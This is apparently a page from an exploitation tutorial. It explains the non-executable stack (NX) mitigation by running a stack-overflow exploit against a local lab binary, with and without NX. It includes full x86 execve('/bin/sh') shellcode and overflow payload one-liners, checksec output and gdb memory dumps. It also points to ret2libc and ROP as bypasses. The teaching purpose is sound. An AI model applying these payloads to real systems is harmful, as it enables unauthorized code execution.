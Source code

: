 # Security techniques

Security techniques were invented to prevent exploitation of the programs. Each of them is aimed at concrete vulnerability. In general, these techniques are just compiler options or OS configuration.

## Non-Executable Stack(NX)

Prevents the attacker from jumping to the shellcode within the stack. I disabled it before with an option of the compiler: `-z execstack`. Thus, it makes the stack executable or, in other words, it allows you to execute the content of the stack.

Let's try our stack-overflow exploit that we did before.

Firstly, start the exploit without the NX option:
```bash
$ checksec stack-overflow
[*] '/home/shogun/repos/basics-of-pwn/content/stack-overflow/stack-overflow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
$ python3 exploit.py
[+] Starting local process './stack-overflow': pid 6803
[*] Switching to interactive mode
$ w
19:56:08 up 28 min,  1 user,  load average: 0.47, 0.65, 0.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               19:27   28:37   1:25   1.39s xfce4-session
$  
```

Exploit works.

Now, try it with NX enabled:
```bash
$ gcc ../stack-overflow/stack-overflow.c -o stack-overflow-with-nx -fno-stack-protector -no-pie
$ checksec stack-overflow-with-nx
[*] '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$ cp ../stack-overflow/exploit.py stack-overflow-exploit.py
$ python3 stack-overflow-exploit.py
[+] Starting local process './stack-overflow-with-nx': pid 7040
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ w
[*] Process './stack-overflow-with-nx' stopped with exit code -11 (SIGSEGV) (pid 7040)
[*] Got EOF while sending in interactive
```

Okay, you can see that the NX option is enabled as `checksec` said. And exploit is broken. Let's try without script:
```bash
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x36\xcf\xff\xff"'; cat) | ./stack-overflow-with-nx

Segmentation fault (core dumped)
```

Okay, the program just crashed.

In gdb:
```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x36\xcf\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x36\xcf\xff\xff"')

Program received signal SIGSEGV, Segmentation fault.
0xffffcf36 in ?? ()
gef➤  x/100wx $esp - 0x12a
0xffffcea6:	0xcfc8f7fa	0x923affff	0xcec60804	0xcf00ffff
0xffffceb6:	0x0003ffff	0x92240000	0xd0000804	0xe76cf7ff
0xffffcec6:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffced6:	0xb0e18953	0x4180cd0b	0x41414141	0x41414141
0xffffcee6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf06:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf16:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf26:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf36:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf46:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf56:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf66:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf76:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf86:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf96:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfa6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfb6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfc6:	0x41414141	0xcf364141	0x8000ffff	0x8000f7fa
0xffffcfd6:	0x0000f7fa	0xbee50000	0x0001f7dd	0xd0740000
0xffffcfe6:	0xd07cffff	0xd004ffff	0x8000ffff	0x0000f7fa
0xffffcff6:	0xd0580000	0x0000ffff	0xd0000000	0x0000f7ff
0xffffd006:	0x80000000	0x8000f7fa	0x0000f7fa	0x1c800000
0xffffd016:	0x9a909e20	0x0000dac2	0x00000000	0x00000000
0xffffd026:	0x00010000	0x90c00000	0x00000804	0x7cd40000
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\xc6\xce\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\xc6\xce\xff\xff"')

Program received signal SIGSEGV, Segmentation fault.
0xffffcec6 in ?? ()
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x08049000 0x0804a000 0x00001000 r-x /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804a000 0x0804b000 0x00002000 r-- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804b000 0x0804c000 0x00002000 r-- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804c000 0x0804d000 0x00003000 rw- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804d000 0x0806f000 0x00000000 rw- [heap]
0xf7dbd000 0xf7dda000 0x00000000 r-- /lib/i386-linux-gnu/libc-2.31.so
0xf7dda000 0xf7f35000 0x0001d000 r-x /lib/i386-linux-gnu/libc-2.31.so
0xf7f35000 0xf7fa5000 0x00178000 r-- /lib/i386-linux-gnu/libc-2.31.so
0xf7fa5000 0xf7fa6000 0x001e8000 --- /lib/i386-linux-gnu/libc-2.31.so
0xf7fa6000 0xf7fa8000 0x001e8000 r-- /lib/i386-linux-gnu/libc-2.31.so
0xf7fa8000 0xf7faa000 0x001ea000 rw- /lib/i386-linux-gnu/libc-2.31.so
0xf7faa000 0xf7fac000 0x00000000 rw-
0xf7fcb000 0xf7fcd000 0x00000000 rw-
0xf7fcd000 0xf7fd0000 0x00000000 r-- [vvar]
0xf7fd0000 0xf7fd1000 0x00000000 r-x [vdso]
0xf7fd1000 0xf7fd2000 0x00000000 r-- /lib/i386-linux-gnu/ld-2.31.so
0xf7fd2000 0xf7ff0000 0x00001000 r-x /lib/i386-linux-gnu/ld-2.31.so
0xf7ff0000 0xf7ffb000 0x0001f000 r-- /lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 0x0002a000 r-- /lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 0x0002b000 rw- /lib/i386-linux-gnu/ld-2.31.so
0xfffdd000 0xffffe000 0x00000000 rw- [stack]
```

Even, if you will jump to the right address the program will not execute it, because you can see that the stack hasn't an X flag.

But, it doesn't mean that you can't exploit it now. You can apply two exploitation techniques here: [Return to libc attack(ret2libc)](../bypass-security-techniques/bypass-security-techniques.md#return-to-libc-attack "https://github.com/whatsyourask/basics-of-pwn/blob/main/content/bypass-security-techniques/bypass-security-techniques.md#return-to-libc-attack") and `Return-Oriented programming(ROP)`.

